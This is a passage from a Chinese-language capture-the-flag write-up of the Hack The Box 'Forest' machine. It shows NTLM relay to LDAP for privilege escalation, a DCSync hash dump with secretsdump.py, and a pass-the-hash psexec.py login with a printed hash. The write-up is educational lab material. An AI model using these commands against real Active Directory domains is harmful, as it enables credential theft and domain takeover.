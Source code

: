 显然，这将会失败，因为我的 Kali 机器上没有运行 SMB 服务，而且它也不是我机器的有效凭证。

![](img/79c19927678c784fda2f3f263eb31187.png)

4.然而，`ntlmrelay.py`工具会将捕获到的`htb.local/bigb0ss:bigb0ss`的认证尝试转发给`ldap://10.10.10.161`(森林盒子)。由于它是 Forces box 的有效凭证，它将成功地验证并提升我们添加`Replication-Get-Changes-All`的权限。

![](img/c34a9e198faa0920bb7b051be0b7e7d2.png)

## 数据同步

随着权限的提升，我们可以使用`secretsdump.py`工具执行 DCSync 来转储“管理员”用户的 NTLM 散列。

```
**### DCSync**
$ secretsdump.py htb.local/bigb0ss:bigb0ss@10.10.10.161 -just-dc-user administrator
```

![](img/ea0106e6e506514e289bb3cc60e97944.png)

## root.txt

使用`psexec.py`，我们现在可以作为“管理员”用户登录并读取`root.txt`文件。

```
**### PSExec**
$ psexec.py htb.local/administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
